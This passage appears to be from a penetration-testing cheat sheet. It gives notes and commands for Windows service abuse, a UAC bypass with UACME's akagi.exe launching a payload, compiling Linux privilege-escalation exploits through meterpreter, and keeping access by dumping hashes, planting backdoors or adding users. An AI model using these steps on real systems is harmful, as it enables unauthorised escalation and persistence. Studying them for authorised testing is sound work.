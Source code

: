 ```powershell
sc qc <serviceInQuestion> # displays as who the service is run and if autostart is set
sc stop <serviceInQuestion>
sc start <serviceInQuestion>
```

**IMPORTANT:** We have to be able to start and stop the service to be able to exploit this vulnerability. Also if the service is on autostart and we can provoke a crash + restart or just reboot the machine in order to trigger execution.

#### UAC bypass

> Tools for bypassing the user account control of windows

- [uacme](https://github.com/hfiref0x/UACME) (has to be compiled with VStudio 2015 or later)

```bash
meterpreter> shell
shell> akagi.exe 58 c:\users\downloads\exploit.exe  # 58 for the method, and the latter the payload that shall be executed
```

### Linux privilege escalation

Some differences to windows, exploitcode may have to be compiled for the target plattform  `x86`, `x86_64`, `arm` and so on...

#### Exploit c Code

Preferably, if there is a compiler on the remote system use that one (okay it may not be silent, but the architecture will be correct!)

```bash
# on remote system with meterpreter
meterpreter> upload /local/path/to/code.c
meterpreter> gcc code.c -o exploit

# local system
apt install gcc-multilib  # allows compiling for other archs
gcc -m32 code.c -o exploit  # compiled for 32-bit
```


## Maintaining access

> To avoid loosing your session and maintain access (as the user can otherwise kill the process) -> **persistence**

Via
- password hashes (windows: pth, or cracking them)
- backdoors
- new user

### Password hash

Simply dump the hashes with meterpreter (requires permissions) -> if it fails migrate into another `NT AUTHORITY\SYSTEM` owned process and try again!
